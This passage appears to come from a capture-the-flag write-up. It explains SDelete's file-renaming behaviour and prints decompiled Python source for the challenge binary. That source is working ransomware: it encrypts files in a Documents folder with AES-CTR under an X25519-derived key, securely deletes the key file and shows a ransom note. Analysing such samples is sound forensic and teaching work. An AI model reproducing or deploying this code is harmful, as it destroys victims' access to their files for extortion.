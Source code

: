 Extracting and analyzing each of them, `sdelete64.exe` seems to be a Microsoft [utility](https://learn.microsoft.com/en-us/sysinternals/downloads/sdelete) that securely deletes files from a system. Reading about SDelete, it seems that it actually overwrites the file name of each deleted files by renaming the file 26 times, each time replacing each character of the file's name with a successive alphabetic character. Hence, `ZZZZZZZZZZ` was most likely one of the deleted files. Analyzing `fiilllleeeeeeee.exe`, it seems to be a compiled Python program. Decompiling it with PyLingual, the source code can be obtained.

```
# Decompiled with PyLingual (https://pylingual.io)
# Internal filename: fiilllleeeeeeee.py
# Bytecode version: 3.12.0rc2 (3531)
# Source timestamp: 1970-01-01 00:00:00 UTC (0)

import subprocess
from cryptography.hazmat.primitives.asymmetric.x25519 import X25519PrivateKey, X25519PublicKey
from cryptography.hazmat.primitives.ciphers import algorithms, Cipher, modes
from hashlib import sha256
from pathlib import Path
import os
import shelve
import sys
PUBLIC_KEY = X25519PublicKey.from_public_bytes(bytes.fromhex('18099b8ba29b20553ee1fb36280fce8fcd616d036c70d24fe7918bc199baa879'))
if getattr(sys, 'frozen', False):
    WORKING_DIRECTORY = Path(sys.executable).parent
else:
    WORKING_DIRECTORY = Path(__file__).parent
SHARED_KEY_FILE = WORKING_DIRECTORY / 'shared_key'
MESSAGE_FILE = WORKING_DIRECTORY / 'message.txt'
SDELETE_FILE = WORKING_DIRECTORY / 'sdelete64.exe'
ENCRYPT_DIRECTORY = Path.home() / 'Documents' / 'is_you_happen_to_have_a_directory_named_this_and_they_get_encrypted_then_its_on_you'
MAGIC = b'ENCRYPTED\x00\x00\x00\xde\xad\xbe\xef'

def main():
    if SHARED_KEY_FILE.exists():
        shared_key = SHARED_KEY_FILE.read_bytes()
    else:
        private_key = X25519PrivateKey.generate()
        public_key = private_key.public_key().public_bytes_raw()
        shared_key = sha256(private_key.exchange(PUBLIC_KEY)).digest()
        MESSAGE_FILE.write_text(f'\n        Whoops! Looks your files are encrypted.\n        Email fake@example.com quoting the following unique ID to decrypt your files:\n        {public_key.hex()}\n        ')
        SHARED_KEY_FILE.write_bytes(shared_key)
    if ENCRYPT_DIRECTORY.exists() and ENCRYPT_DIRECTORY.is_dir():
        for file in ENCRYPT_DIRECTORY.iterdir():
            if not file.is_file():
                continue
            contents = file.read_bytes()
            if contents.startswith(MAGIC):
                continue
            nonce = os.urandom(algorithms.AES256.block_size // 8)
            cipher = Cipher(algorithms.AES256(shared_key), modes.CTR(nonce))
            encryptor = cipher.encryptor()
            file.write_bytes(MAGIC + nonce + encryptor.update(contents) + encryptor.finalize())
    SHARED_KEY_FILE.write_bytes(b'A' * SHARED_KEY_FILE.stat().st_size)
    subprocess.call([str(SDELETE_FILE.resolve()), '/accepteula', str(SHARED_KEY_FILE.resolve())])
    subprocess.call(['notepad.exe', MESSAGE_FILE.resolve()])
if __name__ == '__main__':
    main()
```
